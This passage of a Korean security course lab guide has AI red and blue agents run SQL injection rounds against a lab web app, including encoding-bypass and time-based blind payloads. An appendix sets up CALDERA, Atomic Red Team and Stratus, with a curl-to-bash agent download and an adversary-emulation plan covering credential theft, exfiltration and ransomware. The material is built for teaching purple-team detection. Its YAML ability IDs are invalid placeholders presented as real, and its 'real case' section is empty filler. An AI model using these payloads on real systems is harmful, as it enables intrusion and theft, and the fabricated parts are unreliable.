> **트러블슈팅**: 특정 Agent의 task가 타임아웃되면 해당 task만 별도로 재실행한다. `curl --connect-timeout 5` 옵션을 추가하여 응답 대기 시간을 제한한다.

## 실습 4.2: Red vs Blue 반복 대결 (2라운드)

> **실습 목적**: Red Agent의 공격 후 Blue Agent가 탐지 규칙을 강화하고, Red Agent가 다시 우회를 시도하는 반복 대결을 수행한다.
>
> **배우는 것**: 공격-방어의 진화적 순환, 탐지 규칙 강화의 효과, 우회 기법의 발전, 각 라운드에서의 학습을 이해한다.
>
> **결과 해석**: 라운드가 진행될수록 양측의 전략이 정교해져야 한다. 한쪽이 일방적으로 유리하면 게임 밸런스 조정이 필요하다.
>
> **실전 활용**: 이 반복 대결은 실제 퍼플팀 운영의 자동화 버전이며, Week 13에서 더 체계적으로 다룬다.

```bash
# 반복 대결 프로젝트
curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "week10-iterative-battle",
    "request_text": "Red vs Blue 반복 대결 (2라운드)",
    "master_mode": "external"
  }' | python3 -m json.tool
```

```bash
export PROJECT_ID4="반환된-프로젝트-ID"

curl -s -X POST http://localhost:9100/projects/$PROJECT_ID4/plan \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID4/execute \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
```

```bash
# Round 1: Red Agent 공격 (기본 SQLi)
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID4/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[Round1-RED] 기본 SQLi 공격\"; curl -s \"http://10.20.30.80:3000/rest/products/search?q=%27%20OR%201=1--\" 2>/dev/null | head -5; echo \"---\"; echo \"공격 시각: $(date +%H:%M:%S)\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[Round1-BLUE] 탐지 분석\"; ssh ccc@10.20.30.1 \"tail -10 /var/log/suricata/fast.log 2>/dev/null | grep -i sql || echo 탐지 없음\"; echo \"---\"; ssh ccc@10.20.30.80 \"tail -5 /var/log/apache2/access.log 2>/dev/null | grep -i \\\"OR 1=1\\\" || echo 로그 패턴 미발견\"",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
```

```bash
# Round 2: Red Agent 우회 공격 (인코딩 변형 SQLi)
curl -s -X POST http://localhost:9100/projects/$PROJECT_ID4/execute-plan \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "tasks": [
      {
        "order": 1,
        "instruction_prompt": "echo \"[Round2-RED] 인코딩 우회 SQLi\"; curl -s \"http://10.20.30.80:3000/rest/products/search?q=%27%20%4fR%201%3d1%2d%2d\" 2>/dev/null | head -5; echo \"---\"; echo \"우회 기법: OR→%4fR, =→%3d, --→%2d%2d\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 2,
        "instruction_prompt": "echo \"[Round2-RED] 시간 기반 블라인드 SQLi\"; start=$(date +%s); curl -s \"http://10.20.30.80:3000/rest/products/search?q=test%27%20AND%20(SELECT%20CASE%20WHEN%20(1=1)%20THEN%20RANDOMBLOB(100000000)%20ELSE%201%20END)--\" 2>/dev/null > /dev/null; end=$(date +%s); echo \"응답 시간: $((end-start))초 (지연 시 SQLi 가능)\"",
        "risk_level": "medium",
        "subagent_url": "http://10.20.30.201:8002"
      },
      {
        "order": 3,
        "instruction_prompt": "echo \"[Round2-BLUE] 강화 탐지\"; ssh ccc@10.20.30.1 \"tail -15 /var/log/suricata/fast.log 2>/dev/null | tail -5 || echo No alerts\"; echo \"---\"; ssh ccc@10.20.30.100 \"tail -10 /var/ossec/logs/alerts/alerts.json 2>/dev/null | python3 -m json.tool 2>/dev/null | head -20 || echo No Wazuh alerts\"",
        "risk_level": "low",
        "subagent_url": "http://10.20.30.201:8002"
      }
    ],
    "subagent_url": "http://localhost:8002"
  }' | python3 -m json.tool
```

> **명령어 해설**:
> - Round 2 Red: URL 인코딩 변형(`OR`→`%4fR`)으로 시그니처 기반 탐지 우회 시도
> - 시간 기반 블라인드 SQLi: RANDOMBLOB으로 의도적 지연을 유발하여 SQL 실행 여부 확인
> - Round 2 Blue: Suricata와 Wazuh 양쪽에서 교차 탐지 확인
>
> **트러블슈팅**: 인코딩 우회가 동작하지 않으면 다른 인코딩 조합(유니코드, 더블 URL 인코딩)을 시도한다. 블라인드 SQLi 응답 시간이 일정하면 SQLi가 불가능한 것일 수 있다.

## 실습 4.3: 학습 곡선 분석 및 재학습

> **실습 목적**: 반복 대결 후 축적된 데이터로 RL을 재학습하여 정책 개선을 확인한다.
>
> **배우는 것**: 반복 학습에 의한 정책 개선, Q-테이블 변화 분석, 학습 곡선의 해석 방법을 이해한다.
>
> **결과 해석**: 재학습 후 Q값이 변화했다면 새로운 경험이 정책에 반영된 것이다. 인코딩 우회 같은 성공적 행동의 Q값이 상승해야 한다.
>
> **실전 활용**: 지속적 학습(Continuous Learning)은 실제 보안 운영에서 새로운 공격 패턴에 적응하는 핵심 메커니즘이다.

```bash
# 재학습 실행
curl -s -X POST http://localhost:9100/rl/train \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

# 업데이트된 정책 확인
curl -s http://localhost:9100/rl/policy \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

# 업데이트된 추천 확인
curl -s "http://localhost:9100/rl/recommend?agent_id=http://10.20.30.201:8002&risk_level=medium" \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool

# 전체 PoW 보상 랭킹 — 학습 효과 관찰
curl -s http://localhost:9100/pow/leaderboard \
  -H "X-API-Key: $BASTION_API_KEY" | python3 -m json.tool
```

> **명령어 해설**:
> - 재학습 후 `/rl/policy`의 Q-테이블이 이전과 달라져야 한다
> - `/rl/recommend`의 추천 행동이 변경되었다면 새로운 경험이 정책에 반영된 것이다
> - leaderboard에서 에이전트의 누적 보상 변화를 관찰한다
>
> **트러블슈팅**: Q-테이블이 변하지 않으면 학습률(α)이 너무 낮거나 새로운 데이터가 기존 데이터와 유사한 것이다. 더 다양한 시나리오를 추가로 실행한다.

### 성능 비교 종합표

실습 결과를 다음 표에 정리하여 비교한다:

| 비교 항목 | 단일 에이전트 | RL 적용 에이전트 | 앙상블 에이전트 |
|----------|-------------|----------------|---------------|
| 발견 취약점 수 | (기록) | (기록) | (기록) |
| 성공률 | (기록) | (기록) | (기록) |
| 탐지 회피율 | (기록) | (기록) | (기록) |
| 토큰 사용량 | (기록) | (기록) | (기록) |
| 소요 시간 | (기록) | (기록) | (기록) |
| 비용 효율성 | (기록) | (기록) | (기록) |

---

## 검증 체크리스트

실습 완료 후 다음 항목을 스스로 확인한다:

- [ ] RL의 핵심 구성 요소(상태, 행동, 보상, 정책)를 보안 에이전트에 매핑하여 설명할 수 있는가?
- [ ] Q-learning 업데이트 공식의 각 요소(α, γ, r)의 역할을 설명할 수 있는가?
- [ ] Bastion의 RL API(/rl/train, /rl/recommend, /rl/policy)를 사용할 수 있는가?
- [ ] 프롬프트 A/B 테스트를 설계하고 결과를 비교 분석할 수 있는가?
- [ ] 멀티 에이전트 앙상블의 장점과 한계를 설명할 수 있는가?
- [ ] 탐험-활용(Exploration-Exploitation) 딜레마를 이해하고 ε-greedy 전략을 설명할 수 있는가?
- [ ] 보상 함수 설계 시 고려해야 할 요소를 나열할 수 있는가?
- [ ] Red vs Blue 반복 대결에서 양측의 전략 진화를 관찰하고 분석할 수 있는가?
- [ ] RL 재학습 후 Q-테이블의 변화를 해석할 수 있는가?
- [ ] PoW 보상 데이터와 RL 학습의 연관성을 설명할 수 있는가?

---

## 과제

### 과제 1: RL 학습 최적화 (필수)
최소 5개의 다양한 공격 시나리오를 실행하여 RL 학습 데이터를 풍부하게 만들고:
- 각 시나리오의 risk_level을 다양하게 설정 (low, medium, high)
- `/rl/train` 후 `/rl/policy`의 Q-테이블 변화를 기록
- `/rl/recommend`의 추천이 합리적인지 분석하라
- 보상 함수 개선 제안을 포함하라

### 과제 2: 프롬프트 최적화 실험 (필수)
프롬프트 튜닝 5개 차원(구체성, 역할 깊이, 제약 강도, 출력 형식, 컨텍스트 양)을 각각 2단계로 변경하며:
- 최소 4가지 프롬프트 변형을 /a2a/mission으로 테스트
- 각 변형의 발견율, 정밀도, 토큰 사용량을 측정
- 최적 프롬프트 구성을 도출하고 근거를 제시하라

### 과제 3: 앙상블 전략 비교 (선택)
다음 세 가지 앙상블 전략을 구현하고 비교하라:
- (A) 독립 실행 후 결과 병합 (현재 실습 방식)
- (B) 순차 파이프라인 (이전 에이전트 결과를 다음 에이전트 입력으로)
- (C) 경쟁적 실행 (같은 목표를 다른 전략으로 수행 후 최선 선택)
- 각 전략의 장단점과 적합 시나리오를 분석하라

---

## 다음 주 예고

**Week 11: 레드팀 운영 — PTES, 작전계획(OpOrder), 침투수행, 증적관리, 보고서 작성**
- PTES(Penetration Testing Execution Standard) 전체 프레임워크 학습
- 실전 레드팀 작전 계획서(Rules of Engagement, OpOrder) 작성
- Bastion를 활용한 체계적 침투 수행 및 자동 증적 관리
- 전문 침투 테스트 보고서 작성 실습

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### CCC Bastion Agent
> **역할:** CCC 자율 운영 에이전트 — 스킬/플레이북/경험 학습  
> **실행 위치:** `bastion (10.20.30.201)`  
> **접속/호출:** TUI `./dev.sh bastion`, API `http://10.20.30.200:8003` (Bastion /ask·/chat)

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `packages/bastion/agent.py` | 메인 에이전트 루프 |
| `packages/bastion/skills.py` | 스킬 정의 |
| `packages/bastion/playbooks/` | 정적 플레이북 YAML |
| `data/bastion/experience/` | 수집된 경험 (pass/fail) |

**핵심 설정·키**

- `LLM_BASE_URL / LLM_MODEL` — Ollama 연결
- `CCC_API_KEY` — ccc-api 인증
- `max_retry=2` — 실패 시 self-correction 재시도

**로그·확인 명령**

- ``docs/test-status.md`` — 현재 테스트 진척 요약
- ``bastion_test_progress.json`` — 스텝별 pass/fail 원시

**UI / CLI 요점**

- 대화형 TUI 프롬프트 — 자연어 지시 → 계획 → 실행 → 검증
- `/a2a/mission` (API) — 자율 미션 실행
- Experience→Playbook 승격 — 반복 성공 패턴 저장

> **해석 팁.** 실패 시 output을 분석해 **근본 원인 교정**이 설계의 핵심. 증상 회피/땜빵은 금지.

---

## 실제 사례 (WitFoo Precinct 6 — Red Team 운영)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Red Team 운영* 학습 항목 매칭.

### Red Team 운영 의 dataset 흔적 — "team coordination"

dataset 의 정상 운영에서 *team coordination* 신호의 baseline 을 알아두면, *Red Team 운영* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — 다수 attacker 의 동시 작전.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | team coordination |
| 정량 baseline | 다수 attacker 의 동시 작전 |
| 학습 매핑 | C2 over Slack / 통신 보안 |

**자세한 해석**: C2 over Slack / 통신 보안. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | team coordination 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Red Team 운영 = team coordination 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — 다수 attacker 의 동시 작전.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: Red Team 5인 도구 분담.


---

## 부록: 학습 OSS 도구 매트릭스 (Course12 — Week 10 APT 캠페인 시뮬)

### lab step → 도구 매핑

| step | 학습 항목 | OSS 도구 |
|------|----------|---------|
| s1 | CALDERA (MITRE) | CALDERA + sandcat agent |
| s2 | Atomic Red Team | atomic-red-team + invoke |
| s3 | Stratus Red Team (cloud) | stratus |
| s4 | Prelude Operator OSS | Prelude Operator |
| s5 | InfectionMonkey | InfectionMonkey |
| s6 | Custom adversary | CALDERA YAML |
| s7 | Purple team cycle | CALDERA + Wazuh + Sigma |
| s8 | DeTT&CT coverage | DeTT&CT |

### 학생 환경 준비

```bash
# === CALDERA (MITRE adversary emulation, 가장 종합) ===
git clone https://github.com/mitre/caldera --recursive ~/caldera
cd ~/caldera && pip install -r requirements.txt
python3 server.py --insecure                              # http://localhost:8888
# 기본 admin/admin

# === Atomic Red Team (T-code 기반 단순) ===
git clone https://github.com/redcanaryco/atomic-red-team ~/atomic
pip install pyinvoke
sudo invoke install-atomicredteam

# === Stratus Red Team (cloud emulation, Datadog OSS) ===
go install github.com/datadog/stratus-red-team/v2/cmd/stratus@latest
# 또는:
docker pull ghcr.io/datadog/stratus-red-team:latest

# === Prelude Operator OSS (modern adversary platform) ===
# https://github.com/preludeorg/operator
# OSS 라이센스 일부

# === InfectionMonkey (Guardicore) ===
git clone https://github.com/guardicore/monkey ~/monkey

# === DeTT&CT (coverage 측정) ===
git clone https://github.com/rabobank-cdc/DeTTECT ~/dettect
cd ~/dettect && pip install -r requirements.txt
```

### CALDERA — 본격 APT 시뮬 (built-in 50+)

```bash
# === 1. Server 시작 ===
cd ~/caldera
python3 server.py --insecure                              # http://localhost:8888

# === 2. Adversary profiles (built-in) ===
# Web UI → Adversaries
# 50+ APT/threat actor:
# - APT29 (Cozy Bear, Russia)
# - APT28 (Fancy Bear, Russia)
# - APT41 (China)
# - APT10 (Stone Panda, China)
# - Lazarus (NK)
# - Carbanak / FIN7
# - Conti (Ransomware)
# - Wizard Spider
# - Sandworm (Russia, Olympic Destroyer)

# === 3. Sandcat agent 배포 ===
# Linux:
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" \
    -H "server:http://caldera:8888" \
    http://caldera:8888/file/download | bash

# Windows:
# powershell -W h -nop -enc <base64>

# macOS:
curl -s -X POST -H "file:sandcat.go" -H "platform:darwin" \
    http://caldera:8888/file/download | bash

# === 4. Operation 시작 (REST API) ===
curl -X POST http://localhost:8888/api/v2/operations \
    -H "KEY: ADMIN123" \
    -H "Content-Type: application/json" \
    -d '{
        "name": "APT29 Sim 2026-Q2",
        "adversary": {"adversary_id": "0f4c3c67-845e-49a0-927e-90ed33c044e0"},
        "group": "linux",
        "planner": {"planner_id": "atomic"},
        "auto_close": false,
        "obfuscator": "plain-text",
        "jitter": "4/8"
    }'

# === 5. Operation status 모니터 ===
curl http://localhost:8888/api/v2/operations \
    -H "KEY: ADMIN123" | \
    jq '.[] | {name, state, completed_tasks: (.completed_tasks | length)}'

# === 6. 완료 후 결과 ===
curl http://localhost:8888/api/v2/operations/<op_id>/report \
    -H "KEY: ADMIN123" \
    -H "Content-Type: application/json" \
    -d '{"enable_agent_output": true}'
```

### Custom adversary YAML 작성

```yaml
# ~/caldera/data/adversaries/custom-banking-apt.yml
id: custom-banking-apt-2026
name: 자체 위협 시나리오 — 한국 금융 표적
description: |
  Phishing → Local exploitation → Lateral → AD compromise → Exfil
  
  실제 위협 모델 기반:
  - 1차: 공급망 (Trojan SW update)
  - 2차: 내부 phishing (다른 부서 사칭)
  - 3차: 자격증명 탈취 + lateral
  - 4차: 도메인 컨트롤러 침해
  - 5차: 데이터 exfil (DNS tunnel)

atomic_ordering:
  # === Phase 1: Initial Access ===
  - 6f4ff2b6-5e0e-4b3f-9e0e-1234567890ab            # T1566.001 Phishing Attachment
  - 7f4ff2b6-5e0e-4b3f-9e0e-1234567890ac            # T1078.002 Domain Accounts
  
  # === Phase 2: Execution ===
  - 8f4ff2b6-5e0e-4b3f-9e0e-1234567890ad            # T1059.001 PowerShell
  - 9f4ff2b6-5e0e-4b3f-9e0e-1234567890ae            # T1059.003 Windows Cmd Shell
  
  # === Phase 3: Persistence ===
  - af4ff2b6-5e0e-4b3f-9e0e-1234567890af            # T1547.001 Boot/Logon Autostart
  - bf4ff2b6-5e0e-4b3f-9e0e-1234567890b0            # T1098 Account Manipulation
  - cf4ff2b6-5e0e-4b3f-9e0e-1234567890b1            # T1505.003 Web Shell
  
  # === Phase 4: Privilege Escalation ===
  - df4ff2b6-5e0e-4b3f-9e0e-1234567890b2            # T1548.002 Bypass UAC
  - ef4ff2b6-5e0e-4b3f-9e0e-1234567890b3            # T1068 Exploit Privesc
  
  # === Phase 5: Defense Evasion ===
  - ff4ff2b6-5e0e-4b3f-9e0e-1234567890b4            # T1027 Obfuscated Files
  - 1f4ff2b6-5e0e-4b3f-9e0e-1234567890b5            # T1070.004 File Deletion
  - 2f4ff2b6-5e0e-4b3f-9e0e-1234567890b6            # T1218 Signed Binary Proxy
  
  # === Phase 6: Credential Access ===
  - 3f4ff2b6-5e0e-4b3f-9e0e-1234567890b7            # T1003.001 LSASS Memory
  - 4f4ff2b6-5e0e-4b3f-9e0e-1234567890b8            # T1003.008 /etc/passwd /etc/shadow
  - 5f4ff2b6-5e0e-4b3f-9e0e-1234567890b9            # T1110.003 Password Spraying
  
  # === Phase 7: Discovery ===
  - 6g4ff2b6-5e0e-4b3f-9e0e-1234567890c0            # T1018 Remote System Discovery
  - 7g4ff2b6-5e0e-4b3f-9e0e-1234567890c1            # T1057 Process Discovery
  - 8g4ff2b6-5e0e-4b3f-9e0e-1234567890c2            # T1083 File/Directory Discovery
  
  # === Phase 8: Lateral Movement ===
  - 9g4ff2b6-5e0e-4b3f-9e0e-1234567890c3            # T1021.001 Remote Desktop Protocol
  - ag4ff2b6-5e0e-4b3f-9e0e-1234567890c4            # T1021.004 SSH
  - bg4ff2b6-5e0e-4b3f-9e0e-1234567890c5            # T1021.002 SMB/Windows Admin Shares
  
  # === Phase 9: Collection ===
  - cg4ff2b6-5e0e-4b3f-9e0e-1234567890c6            # T1005 Data from Local System
  - dg4ff2b6-5e0e-4b3f-9e0e-1234567890c7            # T1039 Data from Network Share
  - eg4ff2b6-5e0e-4b3f-9e0e-1234567890c8            # T1056.001 Keylogging
  
  # === Phase 10: Exfiltration ===
  - fg4ff2b6-5e0e-4b3f-9e0e-1234567890c9            # T1041 Exfil Over C2
  - 1h4ff2b6-5e0e-4b3f-9e0e-1234567890ca            # T1048.003 Exfil Over Unencrypted
  
  # === Phase 11: Impact ===
  - 2h4ff2b6-5e0e-4b3f-9e0e-1234567890cb            # T1486 Data Encrypted (Ransomware sim)
```

### Atomic Red Team — T-code 시뮬

```bash
# === 1. 단일 technique ===
sudo invoke run-atomic-test T1078                          # Valid Accounts
sudo invoke run-atomic-test T1059.001                      # PowerShell
sudo invoke run-atomic-test T1059.003                      # Windows Cmd Shell
sudo invoke run-atomic-test T1059.004                      # Bash
sudo invoke run-atomic-test T1110.001                      # SSH brute
sudo invoke run-atomic-test T1003.001                      # LSASS dump
sudo invoke run-atomic-test T1547.001                      # Boot/Logon Autostart
sudo invoke run-atomic-test T1041                          # Exfil over C2

# === 2. 시퀀스 (Kill Chain) ===
for t in T1078 T1059.001 T1547.001 T1003.001 T1021.004 T1041; do
    echo "=== $t ==="
    sudo invoke run-atomic-test $t
    sleep 30                                              # 탐지 시간 확보
done

# === 3. Cleanup ===
sudo invoke cleanup-atomic-test T1078

# === 4. 결과 → Wazuh 자동 매핑 ===
# Wazuh rule.mitre.id 필드로 자동 매칭
sudo jq -r 'select(.rule.mitre.id) | .rule.mitre.id' \
    /var/ossec/logs/alerts/alerts.json | sort | uniq -c | sort -rn
```

### Stratus Red Team (Cloud — AWS/Azure/GCP/K8s)

```bash
# 사용 가능 attack 목록
stratus list

# 출력:
# AWS:
# - aws.persistence.iam-create-admin-user
# - aws.exfiltration.s3-bucket-public-access
# - aws.privilege-escalation.iam-attach-admin-policy
# - aws.defense-evasion.cloudtrail-disable
#
# Azure:
# - azure.persistence.create-guest-user
# - azure.privilege-escalation.add-owner
#
# GCP:
# - gcp.persistence.add-iam-user
#
# K8s:
# - kubernetes.privilege-escalation.create-token
# - kubernetes.persistence.create-cluster-binding

# === 1. Warmup (인프라 준비) ===
stratus warmup aws.persistence.iam-create-admin-user

# === 2. Detonate (실제 공격 — CloudTrail 에 기록) ===
stratus detonate aws.persistence.iam-create-admin-user

# === 3. CloudTrail / Falco 가 탐지 시그니처 학습 ===
aws cloudtrail lookup-events --max-results 10
sudo journalctl -u falco | grep "Stratus"

# === 4. Cleanup ===
stratus cleanup aws.persistence.iam-create-admin-user

# === 5. 모든 attack 자동 ===
stratus list --output json | jq -r '.[].id' | while read id; do
    echo "=== $id ==="
    stratus warmup $id
    stratus detonate $id
    sleep 30
    stratus cleanup $id
done
```

### Purple Team Cycle (CALDERA + Wazuh + Sigma + DeTT&CT)

```bash
#!/bin/bash
# /usr/local/bin/purple-cycle.sh

# === Phase 1: Pre-test (현재 detection coverage 측정) ===
python3 ~/dettect/dettect.py editor &                     # Web UI 에서 입력
# (사람이 detection rules 매핑 입력)

# Coverage report 생성
python3 ~/dettect/dettect.py de -ft /opt/techniques.yaml \
    --output-filename /tmp/pre-coverage.json

# === Phase 2: Adversary 시뮬 (CALDERA APT29) ===
# Web UI 에서 시작 (또는 API):
OPERATION_ID=$(curl -X POST http://localhost:8888/api/v2/operations \
    -H "KEY: ADMIN123" \
    -d '{"name":"Q2-APT29","adversary":{"adversary_id":"apt29-id"},"group":"linux","planner":{"planner_id":"atomic"}}' | \
    jq -r .id)

echo "Operation started: $OPERATION_ID"
# 1시간 대기
sleep 3600

# === Phase 3: Detection 측정 (Wazuh) ===
# CALDERA 가 실행한 ATT&CK technique 목록
EXECUTED=$(curl http://localhost:8888/api/v2/operations/$OPERATION_ID -H "KEY: ADMIN123" | \
    jq -r '.completed_tasks[].technique.technique_id' | sort -u)

# Wazuh 가 탐지한 ATT&CK
DETECTED=$(sudo jq -r 'select(.rule.mitre.id) | .rule.mitre.id' \
    /var/ossec/logs/alerts/alerts.json | sort -u)

# Gap (executed but not detected)
GAP=$(comm -23 <(echo "$EXECUTED") <(echo "$DETECTED"))
echo "Detection gap: $GAP"

# === Phase 4: Sigma rule 추가 (gap 항목) ===
for tech in $GAP; do
    # SigmaHQ catalog 에서 해당 technique rule 찾기
    grep -rl "$tech" ~/sigma/rules/ | while read rule_file; do
        echo "Adding rule for $tech: $rule_file"
        sigma convert -t opensearch "$rule_file" >> /tmp/wazuh-sigma.json
    done
done

sudo systemctl restart wazuh-manager

# === Phase 5: Re-test ===
# CALDERA 동일 operation 재실행 → 새 rule 매칭 확인

# === Phase 6: Coverage report ===
python3 ~/dettect/dettect.py de -ft /opt/techniques.yaml \
    --output-filename /tmp/post-coverage.json

# Pre vs Post 비교
diff <(jq '.coverage' /tmp/pre-coverage.json) \
     <(jq '.coverage' /tmp/post-coverage.json)
```

### DeTT&CT (Detection Coverage 측정)

```bash
# === 1. Web editor 시작 ===
python3 ~/dettect/dettect.py editor                        # http://localhost:8080

# === 2. 입력 (Web UI) ===
# Tab 1: Data Sources
# - process_creation: Falco / auditd
# - command_line: auditd
# - authentication_log: Wazuh
# - network_traffic: Suricata, Zeek
# - file_modification: Wazuh FIM, AIDE

# Tab 2: Detection rules (Sigma)
# - 각 detection rule 의 matching technique
# - 각 rule 의 quality score (1-3)

# Tab 3: ATT&CK techniques
# - 각 technique 의 visibility score
# - 0: No / 1: Low / 2: Medium / 3: High

# === 3. Export → Navigator JSON ===
python3 ~/dettect/dettect.py d -fd /tmp/data-sources.yaml \
    --output-filename /tmp/dataSourceMatrix.json

python3 ~/dettect/dettect.py de -ft /tmp/techniques.yaml \
    --output-filename /tmp/techniqueMatrix.json

# === 4. ATT&CK Navigator 시각화 ===
# Navigator 에서 import:
# - Data Source Matrix (어떤 데이터 source 가 있나)
# - Technique Matrix (탐지 coverage)
# - Heat map: 빨강 = 0% / 노랑 = 부분 / 초록 = 완전
```

학생은 본 10주차에서 **CALDERA + Atomic Red Team + Stratus + InfectionMonkey + DeTT&CT** 5 도구로 advanced APT 시뮬 + Purple Team cycle (시뮬 → 탐지 → gap → 보강 → 재측정) 의 OSS 표준 흐름을 익힌다.
